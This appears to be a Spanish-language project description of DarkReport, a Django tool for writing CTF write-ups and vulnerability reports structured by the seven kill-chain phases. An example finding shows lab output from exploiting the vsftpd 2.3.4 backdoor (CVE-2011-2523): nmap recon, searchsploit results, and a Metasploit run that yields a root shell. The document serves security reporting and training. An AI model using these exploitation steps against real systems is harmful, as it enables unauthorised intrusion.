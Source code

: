 ## DarkReport
Cuando las herramientas que existen no te satisfacen seguramente sea hora de que hagas la tuya propia, la que se adapta a tus necesidades, gustos 
o que tenga mejor usabilidad, rapidez, etc. Como estaba probando tantas herrientas de reporting que me ayudasen a escribir writes ups, tomar notas 
y apuntes de los retos se me ocurrió la idea de crear DarkReport. Lo he diseñado para escribir un write up de un CTF o también para crear un informe de vulnerabilidades. 

## Está basado en las 7 etapas de un ciberataque (killchain)

Como no siempre es necesario las 7 fases ni tampoco es necesario para hacer un reporte, la aplicación esta diseñada para simplificar los reportes sin perder la opción de explicar las 7 fases, cuando se crea un hallazgo algunos campos son obligatorios de otra forma la vulnerabilidad no se explica y si no se explica, no se sabría solucionar. 

- Reconocimiento, es una fase muy importante, pero no siempre necesaria, a veces nos enteramos de que la versión de algún software que estamos utilizando presenta alguna vulnerabilidad. 

- Preparación:  Que herramientas se utilizan para infectar el sistema, troyanizarlo etc, no siempre es requerido dado que por ejemplo un RCE ya nos permite ejecutar comandos en un sistema de forma remota

- Distribución. Me parece muy imporante que los reportes incluya como se entrega el payload aunque en algunos casos sea una obviedad

- Explotación. La explicación técnica de porque ocurre este error/bug o falla de seguridad.

- Instalación: No siempre necesario, pero puede describirse como que programa, malware o rat, queda instalado para ser persistente en el sistema. 

- Comando y control. Como se crea el canal de comunicación con el atacante. Puertos usados, protocolos, etc.

- Acciones en el objetivo: Que acciones puede realizar el adversario una vez tiene comando y control.

![kill chain](https://upload.wikimedia.org/wikipedia/commons/1/1d/Intrusion_Kill_Chain_-_v2.png)

## Login
Por supuesto he implementado una pantalla de login para que no cualquiera pueda entrar a la aplicación.
En el Readme del proyecto podrás encontrar las instrucciones de como cambiar la password por defecto. 
![login](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/login.png)

## Panel principal
Al entrar en la aplicación te encontrarás una vista de general con una métricas y graficos. En el panel izquierdo podemos cerrar sesión y/o crear nuevos proyectos.
![dashboard](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/dashboard.png)

### Idioma
Actualmente podemos seleccionar inglés o español, pero está pensado para traducirse a todos los idiomas posibles medidante el uso de locales. En el panel arriba a la derecha

### Resumen
Contine un resumen de la cantidad de proyectos, reportes y hallazgos. 

### Estadísticas 
Proporciona un grafico de las vulnerabilidades actuales y otro de los CVEs encontrados

## Crear proyectos
Simplemente creas un proyecto que albergará los reportes, podemos ponerle el nombre de la empresa, cliente o del sitio, etc que vamos a auditar. 
La vista mostrará las vulnerabilidades en cada reporte ordenadas por la prioridad. 

![vista proyecto](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/project_view.png)

## Crear reportes
Cada reporte se crea indicando un objetivo, que puede ser un host, una api, o simplemente inventar un nombre, estos reportes contendrán los hallazgos

## Crear hallazgos
Cuando creamos un hallazgo es donde realmente vamos a idenficar la vulnerabilidad y tratar de explicarla en las 7 fases de pausible ataque. 
Se puede buscar un CVE, la aplicación buscará automáticamente el código CVE-XXX-XXX en la base de datos NITS para cargar el Ajax que nos indica que estamos introduciendo un CVE correcto. 
![find](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/find_detail_view.png)

Al pulsar el botón copiar vamos a obtener un reporte de solo el hallazgo

``` shell
⚠1:  ⚠️ Vulnerabilidad - Remote Code Execution (RCE)
⚠️ CVE: CVE-2011-2523
🔭 Reconocimiento: nmap -p- 10.88.0.2 -sV -vv
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 72:67:68:3C:12:BD (Unknown)
Service Info: OS: Unix
💣 Preparación: └─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Result
🚚 Distribución: msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.88.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.88.0.2:21 - USER: 331 Please specify the password.
[+] 10.88.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.88.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.88.0.1:42055 -> 10.88.0.2:6200) at 2025-09-08 01:06:11 +0200
whoami
root
🪲 Explotación: En julio de 2011, se descubrió que la versión 2.3.4 de vsftpd, descargable desde el sitio principal, había sido comprometida. Los usuarios que iniciaban sesión en un servidor vsftpd-2.3.4 comprometido podían usar una cara sonriente :) como nombre de usuario y obtener acceso a una consola de comandos en el puerto 6200. Esto no se debía a una vulnerabilidad de seguridad en vsftpd, sino a que alguien había subido una versión diferente de vsftpd que contenía una puerta trasera. Desde entonces, el sitio se migró a Google App Engine.
```
Ahora solo tenemos que pergarlo a nuestro write up o al informe final y añadir lo que necesitemos como marcas de markdown etc. 
Te dejo el ejemplo de como quedó después de retocarlo un mínimo aquí: [https://pmartinezrhub.github.io/wiki/posts/dockerlabs-firsthacking/](https://pmartinezrhub.github.io/wiki/posts/dockerlabs-firsthacking/)

### Campos obligatorios y opcionales
Campos obligatorios:
- Tipo de vulnerabilidad - Por defecto es Information disclouser pero hay una lista de todas la vulnerabilidades conocidas.. 
- Distribución  
- Explotación
- Prioridad - Por defecto baja. Los hallazgos dentro de cada reporte se ordenarán por prioridad.

Campos opcionales:
- CVE - Como ya indique se carga con Ajax contra la API del Nist.
- Preparación
- Instalación
- Comando y control
- Acciones en los objetivos
- Fichero recon . Voy a desarrollarlo más pero de momento he dejado la posibilidad de adjuntar un fichero.

![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c2/The_Unified_Kill_Chain.png/1920px-The_Unified_Kill_Chain.png)

Por supuesto la herramienta permite modificar los hallazgos así como borrar proyectos, reportes, exportar datos, etc. 

## Desarrollo
DarkReport esta desarrollado con el framework Django (Python)

 - 1 Como cualquier software, evoluciona, irá mutandom mejorando y acepta contribuciones ideas y desarrollos, me gustaría tener opiniones para mejorar la herramienta.
Es la primera versión, pero iré mejorándola poco a poco . 

 - 2 Su diseño es iconográfico, sencillo y de momento un diseño oscuro de ahí un poco su nombre. 

Puedes descargarlo y obtener más instrucciones desde de este repositorio de Github
[https://github.com/pmartinezrhub/DarkReport](https://github.com/pmartinezrhub/DarkReport)